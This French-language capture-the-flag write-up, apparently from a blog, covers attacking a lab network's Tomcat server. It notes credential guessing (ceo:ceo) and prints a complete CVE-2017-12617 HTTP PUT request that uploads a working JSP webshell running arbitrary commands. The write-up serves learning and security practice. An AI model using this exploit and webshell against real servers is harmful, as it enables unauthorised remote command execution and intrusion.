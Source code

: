 Nous n'avons pas d'identifiants pour les accès SSH et FTP, le service AJP du serveur **project-server** (`10.0.0.2`) est authentifié et les comptes par défaut ont été modifiés, et le service Web du serveur **admin-server** (`10.0.0.3`) est protégé par une Basic-Auth.

Il ne nous reste plus que le Tomcat : http://10.0.0.2:8080/

## OSINT et fausses pistes

Le serveur Tomcat nous donne accès à la TODO-list de _ZedCorp_ :

{{< img-post alt="TODO-list ZedCorp" path="/media/2019/04" file="9d417b0cb15a89426450957da034b3eb.png" >}}

Dans la liste des choses à faire, nous notons que le formulaire d'authentification du serveur d'administration présente un bug. En effet, la page http://10.0.0.3/index.php renvoyait, en plus de l'erreur 401, le formulaire d'authentification du site.

Après avoir testé, sans succés, les injections en tout genre, je me décide à chercher plus d'informations sur la TODO-list. Nous pouvons voir que la session **CEO** est en train de recevoir de nouvelles fonctionnalités. On ne sait jamais, sur un malentendu ...

Hop, `ceo:ceo` et nous sommes authentifié ! Mais nous obtenons le message _"ERROR: CEO session is currently deactivated for maintenance"_.

Autre information sur la TODO-list : il est mentionné la mise en place de backup FTP, et effectivement le compte **backup** existe sur le service FTP du serveur d'administration.

> Après avoir passé pas mal de temps sur ce formulaire, je me décide à aller voir l'auteur du challenge qui m'informe que le comportement du formulaire d'authentification n'était pas intentionnel.

## RCE Tomcat

Les pages d'erreur obtenue sur le serveur Tomcat nous divulguent sur la version : **Apache Tomcat 7.0.41**. Une petite recherche rapide sur Internet nous informe que cette version est vulnérable à la [**CVE-2017-12617**](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2017-12617) si jamais la méthode PUT est acceptée ... Et elle l'est. Nous poussons donc notre Webshell JSP sur le serveur :

{{< highlight http >}}
PUT /rookie.jsp/ HTTP/1.1
Host: 10.0.0.2:8080
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 463

<%@ page import="java.util.*,java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
    String s = null;
    try {
        Process p = Runtime.getRuntime().exec(cmd,null,null);
        BufferedReader sI = new BufferedReader(new
        InputStreamReader(p.getInputStream()));
        while((s = sI.readLine()) != null) { output += s+"\n"; }
    } catch(IOException e) { e.printStackTrace(); }
}
%>
<pre><%=output %></pre>
{{< /highlight >}}
